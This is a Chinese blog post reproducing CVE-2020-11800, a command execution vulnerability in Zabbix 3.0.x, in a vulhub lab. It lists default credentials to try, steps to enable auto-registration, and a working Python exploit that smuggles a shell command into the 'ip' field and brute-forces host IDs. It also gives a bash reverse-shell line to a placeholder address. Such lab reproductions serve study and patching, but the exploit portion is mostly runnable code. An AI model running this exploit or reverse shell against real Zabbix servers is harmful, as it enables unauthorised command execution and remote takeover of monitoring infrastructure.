


# 漏洞复现-CVE-2020-11800-zabbix 命令执行 - 铺哩 - 博客园

> 原文：[`www.cnblogs.com/cute-puli/p/14651583.html`](https://www.cnblogs.com/cute-puli/p/14651583.html)

# 0x00 实验环境

攻击机：Win 10

靶机也可作为攻击机：Ubuntu18 （docker 搭建的 vulhub 靶场）

# 0x01 影响版本

影响版本：Zabbix 3.0.x~3.0.30

漏洞简介：

zabbix 是一个基于 WEB 界面的提供分布式系统监视以及网络监视功能的企业级的开源解决方案。

zabbix 能监视各种网络参数，保证服务器系统的安全运营；并提供灵活的通知机制以让系统管理员快速定位/解决存在的各种问题。

zabbix 由 2 部分构成，zabbix server 与可选组件 zabbix agent。

zabbix server 可以通过 SNMP，zabbix agent，ping，端口监视等方法提供对远程服务器/网络状态的监视，数据收集等功能，它可以运行在 Linux，Solaris，HP-UX，AIX，Free BSD，Open BSD，OS X 等平台。

# 0x02 漏洞复现

（1）访问页面：


 （2）猜测弱口令：("admin","zabbix"),("Admin","zabbix"),("guest","")



 （3）进入 Configuration->Actions，将 Event source 调整为 Auto registration，然后点击 Create action，创建一个 Action，名字随意




 （4）然后点击 Operation，创建一个 Operation，type 为“Add Host”：然后保存


 （5）点击“add”，添加成功：


 （6）这样就开启了自动注册功能，在下载的 vulhub 中漏洞目录有漏洞利用脚本，查看 poc 可以看到执行的是写入文件的操作，使用 python3 执行 poc，进入 docker 中查看写入成功

```
import sys import socket import json import sys def send(ip, data):
    conn = socket.create_connection((ip, 10051), 10)
    conn.send(json.dumps(data).encode())
    data = conn.recv(2048)
    conn.close() return data

target = sys.argv[1] print(send(target, {"request":"active checks","host":"vulhub","ip":"ffff:::;touch /tmp/success2"})) for i in range(10000, 10500):
    data = send(target, {"request":"command","scriptid":1,"hostid":str(i)}) if data and b'failed' not in data: print('hostid: %d' % i) print(data)
```

上面的命令中，我们将 "touch /tmp/success2" 换成别的命令即可：

```
反弹 shell 的命令 /bin/bash -i > /dev/tcp/xx.xx.xx.xx/8899 0<&1 2>&1
```

（7）然后执行该 exp，同时需要监听好你 payload 的端口（8899）：


俺也不知道为啥弹不回来，改天再研究一下。